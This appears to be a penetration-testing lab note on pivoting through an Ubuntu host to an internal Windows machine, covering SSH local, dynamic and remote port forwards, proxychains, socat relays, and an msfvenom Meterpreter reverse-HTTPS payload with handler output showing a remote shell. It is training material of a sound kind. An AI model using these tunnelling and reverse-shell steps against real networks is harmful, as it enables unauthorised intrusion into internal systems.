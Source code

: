 
Attacker IP (Our machine): `10.10.15.218`
Pivot host (Ubuntu machine):  `10.129.101.215` and `172.16.5.129`
Target host (Windows machine): `172.16.5.19`

Attacker -> Pivot Host -> Target Host

```
										   +------------------+
                                           |                  |
                                           |   Target Host    |
                                           |    (Windows)     |
                                           |                  |
                                           |  172.16.5.19     |
                                           |                  |
                                           +--------^---------+
                                                    |
                                                    | Internal Network
                                                    | (172.16.5.0/24)
                                                    |
+------------------+                       +--------+---------+
|                  |                       |                  |
|   Attacker IP    |    Public Network     |   Pivot Host     |
|  (Our Machine)   |======================>|    (Ubuntu)      |
|                  |    (10.0.0.0/8)       |                  |
|  10.10.15.218    |                       |  10.129.101.215  |
|                  |                       |  172.16.5.129    |
+------------------+                       +------------------+
```

### Forwarding with SSH
##### Local Forward
```sh
ssh -L 9999:172.16.5.19:3389 ubuntu@10.129.101.215 -NTv
```
> Connections from localhost to port `9999` is forwarded to the IP `172.16.5.19` and port `3389` as seen from the pivot host: `10.129.101.215`. 
> `-NTv` is used to not create a TTY (`-T`), not execute any command on connection (`-N`) and to be verbose (`-v`). This is usefull for port forwarding scenarios.

Example:
```sh
xfreerdp /v:localhost:9999 /u:victor /p:pass@123
```
> We connect to port `9999` on localhost with credentials for an RDP session. This is forwarded to the Pivot host, which will connect to the Target host on port 3389 (RDP).

##### Dynamic Forward
```sh
ssh -D 1080 ubuntu@10.129.101.215 -NTv
```
> This creates a socks5 tunell through port `1080`. When we use `proxychains4` in front of a command. It will be executed as it would if it were executed on the Pivot host.

```sh
 tail /etc/proxychains4.conf -n6
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

Example:
```sh
proxychains4 xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
> Here `proxychains4` is used to create an RDP session to `172.16.5.19`. That IP is the IP as seen from the Pivot host, and not localhost as we did in local forwarding.

##### Remote Forward
Remote forwarding is used when you want to forward a port on a remote machine to a port on the local machine. For example when you want a reverse shell from the Target host, behind the Pivot host. 

```sh
ssh -R 172.16.5.19:8080:10.10.15.218:4444 ubuntu@10.129.101.215 -NTv
```
> Connections from the Target host (`172.16.5.19`) on port `8080` is forwarded to our attacker machine (`10.10.15.218`) on port `4444`. It is important to remember that these IPs are as seen from the Pivot host (`10.129.101.215`)

Example:
We have a `msfvenom` payload on the Target Windows machine (`172.16.5.19`) that is created with the following command:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
Notice that the `lhost` IP is set to the Pivot machines IP address (`172.16.5.129`).
We can then start a listener on the attacker machine on port `4444`. 
```
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8443
[*] Meterpreter session 58 opened (10.10.15.218:4444 -> 10.10.15.218:46407) at 2025-03-23 12:54:50 +0100

meterpreter > shell
Process 3452 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\victor>
```
When the reverse shell payload on the Target Windows host is executed it will connect to the Pivot host on port 8080, which will forward that to our attacker machine on port 4444.


### Forwarding with SOCAT
Socat can forward without using SSH, so it doesnt require SSH access to the Pivot host. Socat needs to be installed on the remote machine. The tunnel will be unencrypted though.

- Locally
```sh
socat -v TCP-LISTEN:9999,fork,reuseaddr TCP:10.129.101.215:2222
```
> This sets up a listener on port `9999` locally, which will forward it to the host `10.129.101.215` on port `2222`

- Remote Pivot host (`10.129.101.215`)
```sh
socat -v TCP-LISTEN:2222,fork,reuseaddr TCP:172.16.5.19:3389
```
> Setting up a listener on the remote (`10.129.101.215`) server on port `2222`. It then forwards it to the Target Windows machine `172.16.5.19` on port `3389`. 


The above SOCAT tunell is equivalent to:
```sh
ssh -L 9999:172.16.5.19:3389 ubuntu@10.129.101.215 -NTv
```